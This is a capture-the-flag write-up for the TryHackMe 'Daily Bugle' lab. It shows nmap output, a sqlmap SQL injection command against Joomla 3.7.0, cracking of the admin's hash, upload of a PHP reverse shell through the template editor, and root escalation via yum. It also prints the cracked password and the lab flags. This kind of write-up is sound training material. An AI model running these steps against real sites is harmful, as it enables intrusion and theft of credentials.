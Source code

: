 ```yaml
---
title: "Daily Bugle - TryHackMe"
author: Ludovic COULON
date: 2021-01-28
hero: ./images/hero.png
excerpt: "Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum."
---
```


[TryHackMe | Daily Bugle](https://tryhackme.com/room/dailybugle)

![https://i.imgur.com/4xkRRJC.png](https://i.imgur.com/4xkRRJC.png)

Deploy the machine - it may take up to 2 minutes to configure (Hard 🥴)

---

### Setup

```bash
Desktop/TryHackMe/daily_bugle » nmap -A -vv 10.10.85.30 -oN nmap_result
```

```bash
22/tcp   open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX

80/tcp   open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home

3306/tcp open  mysql   syn-ack MariaDB (unauthorized)
```

### Access the web server, who robbed the bank?

```bash
Spiderman
```

![./images/Untitled.png](./images/Untitled.png)

---

![https://i.imgur.com/fREnB0x.png](https://i.imgur.com/fREnB0x.png)

Hack into the machine and obtain the root user's credentials.

### What is the Joomla version?

```bash
# As you can see on the nmap report the blog is using joomla, let's use some tools to enumerate the version and see if there is something interesting..
# https://github.com/Tuhinshubhra/CMSeeK
[✔] CMS URL: https://joomla.org
[✔] Joomla Version: 3.7.0
```

![./images/Untitled1.png](./images/Untitled1.png)

Nice, now we have the version let's see if there is an exploit in this version on exploitdb for example.

![./images/Untitled2.png](./images/Untitled2.png)

Yep ! There is a SQLi available ! 🙌

![./images/Untitled3.png](./images/Untitled3.png)

The exploit tells us to basically use sqlmap, well.. let's do that I guess.

```bash
# sqlmap command
sqlmap -u "http://10.10.85.30/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump
```

If you want, you can use this exploit written with python 

[NinjaJc01/joomblah-3](https://github.com/NinjaJc01/joomblah-3)

![./images/Untitled4.png](./images/Untitled4.png)

```bash

[$] Found user : 'Super User', 'jonah', 'jonah@tryhackme.com', 
Hashed password : '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
```

Nice this is exactly what we wanted, let's crack the password.

### What is Jonah's cracked password?

```bash
# Let's crack the hash with hashcat / john
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
```

![./images/Untitled5.png](./images/Untitled5.png)

After ~40-45 minutes the password has been cracked : `spiderman123`

Now that we have the administrator's password let's upload some reverse shell 👀

![./images/Untitled6.png](./images/Untitled6.png)

Now that we successfully connected let's upload something.

![./images/Untitled7.png](./images/Untitled7.png)

Go to the `Extensions/Templates/Templates` tab.

And create a php page

![./images/Untitled8.png](./images/Untitled8.png)

##### Bonus, you can use my own extension to generate php shell and many more things !

[LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)

![./images/Untitled9.png](./images/Untitled9.png)

![./images/Untitled10.png](./images/Untitled10.png)

Now let's juste save and close the page to see the magic happen 😎

![./images/Untitled11.png](./images/Untitled11.png)

And voilà ! You have successfully uploaded a reverse shell !

Now we can access the configuration of joomla `/var/www/html/configuration.php`

![./images/Untitled12.png](./images/Untitled12.png)

```bash
Password : 'nv5uz9r3ZEDzVjNu';
```

### What is the user flag?

![./images/Untitled13.png](./images/Untitled13.png)

To see what is the name of the user I cd into the `/home` directory to list all of the available users, and the rest is pretty straightforward, just SSH into the account with the password that you have cracked earlier.

```bash
# First flag 
27a260fe3cba712cfdedb1c86d80442e
```

### What is the root flag?

![./images/Untitled14.png](./images/Untitled14.png)

Payload → gtfobins

[yum | GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo)

```bash
# Root flag
# cat /root/root.txt
eec3d53292b1821868266858d7fa6f79
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://tryhackme-badges.s3.amazonaws.com/boperXD.png" alt="TryhackMeProfile" />
  </a>
</center>